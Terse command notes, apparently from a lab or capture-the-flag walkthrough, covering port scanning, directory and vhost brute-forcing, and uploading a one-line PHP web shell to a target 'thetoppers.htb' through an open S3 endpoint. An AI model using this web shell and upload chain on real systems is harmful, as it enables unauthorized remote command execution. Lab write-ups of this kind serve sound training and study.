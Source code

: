 sudo nmap -sV 10.129.227.248

echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts


gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.129.150.33 -x php
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb



echo '<?php system($_GET["cmd"]); ?>' > shell.php
http://thetoppers.htb/shell.php?cmd=id

####aws
apt install awscli
aws configure
aws --endpoint=http://s3.thetoppers.htb s3 ls
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
